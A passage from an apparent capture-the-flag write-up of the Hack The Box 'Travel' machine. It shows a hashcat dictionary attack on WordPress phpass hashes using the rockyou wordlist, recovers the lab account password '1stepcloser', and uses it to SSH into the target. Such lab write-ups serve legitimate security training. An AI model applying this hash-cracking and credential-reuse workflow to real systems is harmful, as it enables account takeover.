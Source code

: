 ```text
```

[https://scottlinux.com/2013/04/23/crack-wordpress-password-hashes-with-hashcat-how-to/](https://scottlinux.com/2013/04/23/crack-wordpress-password-hashes-with-hashcat-how-to/) tells me the correct hash type to use for hashcat is m=400

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ hashcat -O -D1,2 -a0 -m400 travel-hashes /usr/share/wordlists/rockyou.txt                     130 ⨯
hashcat (v6.1.1) starting...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.:1stepcloser   
Approaching final keyspace - workload adjusted.  

Session..........: hashcat
Status...........: Exhausted
Hash.Name........: phpass
Hash.Target......: travel-hashes
Time.Started.....: Sat Sep 19 14:31:18 2020 (6 mins, 22 secs)
Time.Estimated...: Sat Sep 19 14:37:40 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    39458 H/s (13.43ms) @ Accel:1024 Loops:1024 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests, 1/2 (50.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 2120/28688770 (0.01%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:7168-8192
Candidates.#1....: $HEX[21494d41424954434821] -> $HEX[042a0337c2a156616d6f732103]

Started: Sat Sep 19 14:31:07 2020
Stopped: Sat Sep 19 14:37:41 2020
```

Unfortunately I was only able to crack one of the hashes. The password for `lynik-admin` was `1stepcloser` , which I then used to SSH into the machine.

### Road to User

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ ssh lynik-admin@10.10.10.189                                                                  255 ⨯
lynik-admin@10.10.10.189's password: 
Permission denied, please try again.
lynik-admin@10.10.10.189's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 19 Sep 2020 03:12:57 PM UTC

  System load:                      0.0
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        201
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
```